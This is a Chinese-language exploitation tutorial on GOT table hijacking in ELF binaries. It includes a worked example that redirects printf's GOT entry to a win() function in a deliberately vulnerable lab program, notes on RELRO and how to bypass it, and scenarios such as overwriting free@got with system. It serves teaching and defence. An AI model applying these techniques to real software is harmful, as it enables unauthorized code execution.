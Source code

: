 # GOT表劫持

前面了解了动态链接和延迟绑定的概念。针对GOT表延迟绑定，有一种常见攻击方式是GOT表劫持。



### GOT表劫持

```
$ readelf -S ropasaurusrex 
There are 28 section headers, starting at offset 0x724:

Section Headers:
 [Nr] Name       Type      Addr   Off  Size  ES Flg Lk Inf Al
 ...
 [23] .got.plt     PROGBITS    08049604 000604 00001c 04 WA 0  0 4         # 这里flag带W，说明可写
 ...
Key to Flags:
 W (write), A (alloc), X (execute), M (merge), S (strings),
 I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown),
 O (extra OS processing required), o (OS specific), p (processor specific)
```

   - 延迟绑定机制要求GOT表必须可写
   - 内存漏洞可导致GOT表项被改写，从而劫持PC

![GOT HIJACKING](images/ELF文件与动态链接/got_hijack2.png)

![GOT HIJACKING](images/ELF文件与动态链接/got_hijack3.png)

![GOT HIJACKING](images/ELF文件与动态链接/got_hijack4.png)

   实例：GOT表劫持

```
#include <stdlib.h>
#include <stdio.h>

void win() {
  puts("You Win!");
}

void main() {
  unsigned int addr, value;
  scanf("%x=%x", &addr, &value);
  *(unsigned int *)addr = value;
  printf("set %x=%x\n", addr, value);
}
```

编译: gcc got_hijacking.c -m32 -o got_hijacking

程序允许修改任意四字节，如何执行win函数呢？main函数在修改内存后调用了printf函数，因此可以考虑修改printf的GOT表项，将其劫持到win()函数。

```
$ objdump -R got_hijacking | grep printf        # 查询printf@GOT表地址
0804a00c R_386_JUMP_SLOT    printf@GLIBC_2.0
$ objdump -d got_hijacking | grep win           # objdump -d反汇编，查询win()函数地址
0804848b <win>:
$ ./got_hijacking
0804a00c=0804848b                               # 劫持printf@GOT表项为win()函数地址
You Win!
```


### 如何防御GOT表劫持

   - 重定位只读 (Relocation Read Only) 缓解措施
     * 编译选项：gcc -z,relro
     * 在进入main()之前，所有的外部函数都会被解析
     * 所有GOT表设置为只读
     * 绕过方法
       + 劫持未开启该保护的动态库中的GOT表(例如libc中的GOT表)
       + 改写函数返回地址或函数指针



## 补充

### GOT表劫持应用场景与组合利用

GOT覆写是一项用途广泛的技巧，在栈溢出或堆溢出等场景中经常会用来构成攻击链的一部分。当我们通过某些漏洞，拥有了任意地址写的能力，就可以使用GOT表覆写完成利用。通常通过读取GOT表可以实现leak libc，写GOT表可以实现GOT hijack。

一些场景示例：

1. 缓冲区溢出构造ROP调用write@plt读取GOT，调用read@plt覆写GOT

2. 堆溢出或堆UAF漏洞可以控制分配内存到GOT上从而可以进行GOT表劫持

3. 栈上或堆上数组越界导致的任意地址写覆写GOT

4. 格式化字符串漏洞覆写GOT

5. scanf误用如scanf("%d", value)写入操作数没有取地址，通过控制value值即可实现任意地址写

6. GOT劫持多数场景使用libc中system地址覆写，如覆写free@got或strlen@got等，当调用free('/bin/sh')或strlen('/bin/sh')实际调用的是system()

7. GOT劫持覆写GOT表项为one gadget

8. 使用程序本身使用的printf@plt覆写GOT表项可以构造格式化字符串漏洞，plt函数地址在PIE关闭情况下是固定的，这样不需要leak libc也能实现GOT劫持

   

### 定位plt_write和got_write地址

plt_write和got_write都可以通过objdump读取，如下：

```
 $ objdump -d -j .plt level2

 Disassembly of section .plt:

 08048310 <read@plt>:
  8048310: ff 25 00 a0 04 08 jmp *0x804a000
  8048316: 68 00 00 00 00 push $0x0
  804831b: e9 e0 ff ff ff jmp 8048300 <_init+0x30>

 08048320 <__gmon_start__@plt>:
  8048320: ff 25 04 a0 04 08 jmp *0x804a004
  8048326: 68 08 00 00 00 push $0x8
  804832b: e9 d0 ff ff ff jmp 8048300 <_init+0x30>

 08048330 <__libc_start_main@plt>:
  8048330: ff 25 08 a0 04 08 jmp *0x804a008
  8048336: 68 10 00 00 00 push $0x10
  804833b: e9 c0 ff ff ff jmp 8048300 <_init+0x30>

 08048340 <write@plt>:
  8048340: ff 25 0c a0 04 08 jmp *0x804a00c
  8048346: 68 18 00 00 00 push $0x18
  804834b: e9 b0 ff ff ff jmp 8048300 <_init+0x30>
```

```
 $ objdump -R level2
 //got表
 DYNAMIC RELOCATION RECORDS
 OFFSET TYPE VALUE
 08049ff0 R_386_GLOB_DAT __gmon_start__
 0804a000 R_386_JUMP_SLOT read
 0804a004 R_386_JUMP_SLOT __gmon_start__
 0804a008 R_386_JUMP_SLOT __libc_start_main
 0804a00c R_386_JUMP_SLOT write
```

可以看到plt_write值为0x08048340，got_write值为0x804a00c，当然相关实现也已封装到pwntool中，一个调用即可自动获取：

```
 elf = ELF('level2')
 plt_write = elf.symbols['write']
 got_write = elf.got['write']
```

